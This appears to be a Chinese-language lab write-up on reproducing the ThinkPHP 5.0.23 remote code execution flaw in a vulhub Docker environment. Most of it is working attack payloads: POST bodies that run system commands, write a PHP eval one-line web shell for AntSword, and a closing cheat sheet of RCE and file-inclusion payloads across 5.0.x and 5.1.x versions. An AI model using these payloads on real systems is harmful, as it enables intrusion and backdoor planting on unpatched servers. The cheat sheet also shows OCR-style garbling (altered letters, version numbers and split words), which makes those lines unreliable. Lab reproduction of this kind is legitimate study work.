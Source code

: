 ```yaml
---
title: 【Thinkphp漏洞复现】Thinkphp5.0.23远程代码执行漏洞
date: 2025-09-04
categories:
  - Web攻防
  - 靶场
  - 红队
image: images/31.webp
---
```

# 漏洞形成原因
## 框架介绍：  
ThinkPHP是一款运用极广的PHP开发框架。
## 漏洞引入：  
其5.0.23以前的版本中，获取**method**的方法中没有正确处理方法名，导致攻击者可以调用**Request**类任意方法并构造利用链，从而导致远程代码执行漏洞。
# 漏洞如何利用
访问靶机地址+端口号 进入首页
Burp抓包修改传参方式为Post，传入参数为
```
"_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=pwd"，其中pwd为系统执行命令可进行一系列操作。
```
# 环境搭建
使用**vulhub**靶场进行搭建
```
cd thinkphp/5.0.23-rce/
docker-compose up -d
docker ps
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904094154.png)
访问链接：
```
http://192.168.197.140:8080/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904094245.png)

# 漏洞复现
burp抓包
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904094438.png)
修改
传参方式为Post，url后接入`/index.php?s=captch`，传入参数为
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=pwd	
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904094649.png)
**尝试写入phpinfo**
参数改成`echo "<?php phpinfo(); ?>" > info.php`
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo "<?php phpinfo(); ?>" > info.php
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904095528.png)
**写入一句话**
```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '<?php eval($_POST[aaa]); ?>' > shell.php
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904095644.png)
**上蚂剑**
```
http://192.168.197.140:8080/shell.php
密码：aaa
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904095726.png)
**成功**
**做完实验后关闭环境 docker-compose down**
# 更多版本
漏洞触发点和版本的不同，所以payload也不⼀样,条件也不⼀样
5.0.13~5.0.19默认情况下config中的app_debug配置项为false。
复现的时候需要开启这个
**总结⼀下 5.1.x ：**
```
?s=index/thinkRequest/input&fiLter[]=system&data=pwd

?s=index/thinkviewdriverPhp/dispLay&content=C?php phpinfo();?>

?s=index/thinktempLatedriverfiLe/write&cacheFiLe=sheLL.php&content=C? php phpinfo();?>

?s=index/thinkContainer/invokefunction&function=caLL_user_func_array&var

?s[8]=system&vars[f][]=id

?s=index/thinkapp/invokefunction&function=caLL_user_func_array&vars[8]=s ystem&vars[f][]=id
```
**5.0.x ：**
```
?s=index/thinkconfig/get&name=database.username # 获取配置信息

?s=index/thinkLang/Load&fiLe= :/ :/test.jpg # 包含任意⽂件

?s=index/thinkConfig/Load&fiLe= :/ :/t.php # 包含任意.php⽂件

?s=index/thinkapp/invokefunction&function=caLL_user_func_array&vars[8]=s ystem&vars[f][]=id

?s=index|thinkapp/invokefunction&function=caLL_user_func_array&vars[8]=s ystem&vars[f][8]=whoami
```
**5.0.13：**
```
http: "php.LocaL/thinkphp5.8.5/pubLic/index.php?s=index 
方法：post
Body内容：
_method= _construct&method=get&fiLter[]=caLL_user_func&get[]=phpinfo
_method= _construct&fiLter[]=system&method=GET&get[]=whoami
```
**其他**
```
# ThinkPHP ≤ 5.8.f3 POST /?s=index/index
s=whoami&_method= _construct&method=&fiLter[]=system

# ThinkPHP ≤ 5.8.23、5.f.8 ≤ 5.f.f6 需要开启框架app_debug 
POST /
_method= _construct&fiLter[]=system&server[REQUEST_METHOD]=Ls -aL

# ThinkPHP ≤ 5.8.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/f.f
_method= _construct&fiLter[]=system&method=get&get[]=Ls+-aL
_method= _construct&fiLter[]=system&method=get&server[REQUEST_METHOD]=L s
```



